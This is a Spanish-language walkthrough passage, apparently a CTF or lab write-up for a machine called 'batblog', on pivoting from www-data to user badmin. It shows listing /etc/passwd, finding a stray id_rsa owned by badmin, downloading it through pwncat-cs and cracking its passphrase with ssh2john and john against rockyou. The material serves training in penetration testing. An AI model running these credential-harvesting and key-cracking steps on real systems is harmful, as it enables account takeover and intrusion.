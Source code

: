 # Privilege Escalation
## User Pivoting
### Information Disclosure + SSH Private Key Cracking
No encontramos la flag y ademas vemos que existe otro usuario aparte de `root` en el sistema, este usuario se llama `badmin`
```console
(remote) www-data@batblog:/$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
badmin:x:1000:1000:badmin,,,:/home/badmin:/bin/bash
```

Eso me hace pensar que tenemos que migrar a este usuario para conseguir la flag de usuario y ya de ahí escalar privilegios.

Podemos buscar archivos que pertenezcan a este usuario y encontramos uno que me llama mucho la atención, `id_rsa` dentro del directorio donde está la aplicación web, este archivo no debería de estar ahí.

```console
(remote) www-data@batblog:/tmp$ find / -type f -user badmin 2>/dev/null | grep -v proc | grep -v cgroup
/home/badmin/.wget-hsts
/home/badmin/.bashrc
/home/badmin/.bash_logout
/home/badmin/.profile
/home/badmin/.bash_history
/var/www/html/batflat/admin/tmp/id_rsa
```

Podemos descargar esta clave privada y echarla un vistazo en nuestra máquina, vamos a hacer uso de la función `download` de `pwncat-cs`

```console
(local) pwncat$ download /var/www/html/batflat/admin/tmp/id_rsa
/var/www/html/batflat/admin/tmp/id_rsa ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 1.9/1.9 KB • ? • 0:00:00
[16:37:32] downloaded 1.88KiB in 0.16 seconds
```

Una cosa que podemos hacer pasa saber a quien pertenece esta clave privada realmente es derivar la clave pública de esta clave privada, pero vemos que está protegida con una passphrase por lo cual no podemos.
```console
ssh-keygen -y -f id_rsa > id_rsa.pub
Enter passphrase:
```

Podemos usar `ssh2john` para extraer el hash de esta passphrase e intentar crackearlo.
```console
ssh2john id_rsa > hash
```

Ahora con `john` podemos crackear esta passphrase.
```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pa55w0rd         (id_rsa)
1g 0:00:03:30 DONE (2024-11-21 16:29) 0.004740g/s 35.79p/s 35.79c/s 35.79C/s 12346..europa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
